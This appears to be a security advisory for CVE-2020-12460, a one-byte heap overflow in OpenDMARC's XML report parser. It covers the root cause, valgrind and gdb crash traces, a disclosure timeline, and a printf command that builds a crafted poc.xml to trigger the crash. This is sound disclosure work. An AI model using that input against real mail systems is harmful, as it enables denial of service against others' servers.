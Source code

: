 # CVE-2020-12460: Heap-overflow in OpenDMARC

## Summary
OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1 has improper null termination in the function opendmarc_xml_parse that can result in a one-byte heap overflow in opendmarc_xml when parsing a specially crafted DMARC aggregate report. This can cause remote memory corruption when a '\0' byte overwrites the heap metadata of the next chunk and its PREV_INUSE flag [1].

## Details

There is a memory corruption vulnerability in `opendmarc_xml()` of libopendmarc during parsing of DMARC aggregate reports. The versions affected are OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1.

The root cause is improper null termination. The function `opendmarc_xml_parse()` does not explicitly add a null terminator (`'\0'`) to the buffer holding the XML data after reading the contents from a report file. This can cause an off-by-one error in `opendmarc_xml()` in certain cases depending on the report file, resulting in a one-byte heap overflow.

A null byte write occurs during the parsing at `opendmarc_xml.c:171`, `*sp = '\0'`. Eventually, during parsing of a specially crafted report, this null byte will overflow to the next chunk on the heap, overwriting the heap metadata, as indicated by the following valgrind output.

```
==4014== Invalid write of size 1
==4014==    at 0x401223: opendmarc_xml (opendmarc_xml.c:171)
==4014==    by 0x4020DC: opendmarc_xml_parse (opendmarc_xml.c:614)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
==4014==  Address 0x5204478 is 0 bytes after a block of size 1,080 alloc'd
==4014==    at 0x4C2FB55: calloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==4014==    by 0x402070: opendmarc_xml_parse (opendmarc_xml.c:575)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
```

The size field and the least significant bits used as flags are overwritten in the metadata. The relevant flag for this vulnerability is the bit indicating 'previous chunk in use', known as `PREV_INUSE` which will be set to zero and determines if the previous chunk (storing `bufp`) is free. When the buffer is later free'd at `opendmarc_xml.c:616`, `(void) free(bufp)` - a crash occurs as `bufp` is listed as not used.

```
(gdb) run poc.xml
Starting program: /home/peppe/Downloads/test poc.xml
*** Error in `/home/peppe/Downloads/test': double free or corruption (!prev): 0x0000000000605010 ***
.
.
Program received signal SIGABRT, Aborted.
0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007ffff7a4402a in __GI_abort () at abort.c:89
#2  0x00007ffff7a847ea in __libc_message (do_abort=do_abort@entry=2, fmt=fmt@entry=0x7ffff7b9ded8 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
#3  0x00007ffff7a8d37a in malloc_printerr (ar_ptr=<optimized out>, ptr=<optimized out>, str=0x7ffff7b9e008 "double free or corruption (!prev)", action=3) at malloc.c:5006
#4  _int_free (av=<optimized out>, p=<optimized out>, have_lock=0) at malloc.c:3867
#5  0x00007ffff7a9153c in __GI___libc_free (mem=<optimized out>) at malloc.c:2968
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
#7  0x0000000000400d24 in main ()
(gdb) frame 6
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
616		(void) free(bufp);
(gdb) p bufp
$1 = 0x605010 "<feedback"
(gdb) 
```

A remote attacker could provide a specially crafted report that is parsed by this library, causing a denial of service. It could possibly lead to code execution depending on how libopendmarc is used and integrated into the application, in particular if the opendmarc_xml function is used explicitly without calling opendmarc_xml_parse and with input that is not null-terminated.

A DMARC aggregate report that triggers this vulnerability can be generated using the following commands:

```
printf '<feedback></feedback>' > poc.xml; printf 'A%.0s' {1..1053} >> poc.xml; printf '<begin' >> poc.xml
```

A C program that calls `opendmarc_xml_parse` with the poc above is enough to trigger the vulnerability.

## Timeline
- 2020-07 - Reported to the Trusted Domain project [2].
- 2020-09 - Fixed by the maintainers.

## References

[1] CVE-2020-12460 - https://nvd.nist.gov/vuln/detail/CVE-2020-12460

[2] Memory corruption in opendmarc_xml() - https://github.com/trusteddomainproject/OpenDMARC/issues/64
